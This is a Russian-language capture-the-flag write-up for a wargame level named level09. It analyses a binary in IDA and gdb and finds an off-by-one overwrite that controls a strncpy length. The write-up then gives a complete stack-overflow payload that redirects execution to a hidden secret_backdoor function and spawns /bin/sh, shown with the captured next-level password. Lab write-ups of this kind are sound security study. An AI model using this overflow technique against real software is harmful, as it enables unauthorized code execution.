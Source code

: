 ## HowTo

```
> su level09
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

### Инструменты:
- Ida Pro + hex rays
- gdb + peda

**NB:** Для работы с файлом стягиваем его на локальную машину

### Анализ и ход решения
1. Программа читает юзернейм и сообщение, после чего "отправляет его" - на самом деле просто записывает в адресс
2. Анализ через IdaPro также показывает функцию `secret_backdoor()`, 
которая читает с `stdin` строку и запускает указанное в ней через `system()`. Она нигде не вызывается
3. Main вызывает `handle_message`, внутри которого вызываются `set_username`, `set_msg`
4. Обе функции работают с адресом, полученным в качестве аргумента (переменная `a1` в псевдокоде).
5. Анализ `set_username`
```
char s[140]; // [rsp+10h] [rbp-90h
fgets(s, 128, stdin);
for ( i = 0; i <= 40 && s[i]; ++i )
   *(_BYTE *)(a1 + i + 140) = s[i];
```
- `a1` переменная хранящая адрес переданной переменной (общий адрес, разделяемый функциями)
- в буфер `140` читается имя юзера, затем `41` байт записывается по адрему `a1` с оффсетом `140`
6. Анализ `set_msg`
```
  char s; // [rsp+10h] [rbp-400h]
  memset(&s, 0, 0x400uLL);
  fgets(&s, 1024, stdin);
  return strncpy((char *)a1, &s, *(signed int *)(a1 + 180));
```
- в буфер `1024` читаем `1024` байта
- копируем `n-байт` в начало адреса `a1` из буфера, где `n` - интовое значение прочитанное из `a1 + 180`
7. В `set_username` записывается `41` байт (начиная с оффсета `+140`), а в `set_msg` 
размер копирования для `strncpy` берется по оффсету `+180` байт.
Можно заметить, что у нас есть `1` лишний байт, куда можно подложить интовое значение `n` для `strnpy`
8. Общая схема работы функций с шаренным адресом
``` 
1. set_username
    -> read 128
                put uname   put +1
                $rax+140    $rax+140+1
                    ||       ||
                    ||       ||
                    \/       \/
           140b         40b       1b
    |---------------|---------|-------|
    0 ($rax)       140        180    181
    /\                        /\
    ||                        ||
    ||                        ||
    ||                        ||
    put msg                 read signed int 
    $rax+0                  from $rax+180

2. set_msg
    -> read 1024 
```

### Идея взлома
- попробуем перезаписать адрес `eip set_msg`, используя работу с общим адресом в `set_username`, `set_msg`
- подложим туда адрес `secret_backdoor` + аргумент для нее `'/bin/sh'`
1. Находим адрес `secret_backdoor`
```
gdb ./level09
x/s secret_backdoor 
0x55555555488c
```

2. Находим адрес `eip`.
- Переполнение через `peda pattern` результата не дало.
- анализ asm показал, что в обеих функциях происходит всего 1 `push`
- мы также знаем, что программа выделяет буфер для размещения данных, шаремых между функциями
- находим смещение до начала этого буфера, добавляем оверхед на `push`, получаем ожидаемый оффсет до `eip`
```
Dump of assembler code for function handle_msg:
   ...
   0x0000555555554906 <+70>:	lea    rax,[rbp-0xc0]   -------> buff start (192)
   ...
   0x0000555555554910 <+80>:	call   0x5555555549cd <set_username>
        Dump of assembler code for function set_username:
        0x00005555555549cd <+0>:	push   rbp          -------> single push
   ...
   0x000055555555491f <+95>:	call   0x555555554932 <set_msg>
        Dump of assembler code for function set_msg:
        0x0000555555554932 <+0>:	push   rbp          -------> single push
   ...
```

Так что мы считаем, что смещение до `eip set_msg` находится в конце буфера - со смещением `192 + 4 + 4 = 200`
```
 [rbp-0xc0]
    |---------|---------|-------|
    0        192       196     200 - eip
```

3. Теперь у нас есть все для приготовлений `payload`
- `'a' * 40` - паддинг для заполнения `40` байт имени пользователя
- `\0xd0` - `1` байт на число `208` - мы хотим, чтобы `strcpy` скопировал паддинг до `eip` (`200`) + `8` на адрес `secret_backdoor`
- `\n` чтобы обозначить конец буффера, т.к. мы хотим попасть в 2 вызова `gets`
- `'a' * 200` - паддинг до `eip`
- `'\x8c\x48\x55\x55\x55\x55\x00\x00'` - инвертированный и дополненный до 8 адрес `secret_backdoor`
- `'/bin/sh` - аргумент для `secret_backdoor`

```
cat <(python -c "print('a' * 40 + '\xd0' + '\n' + 'a' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '/bin/sh')") -| ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```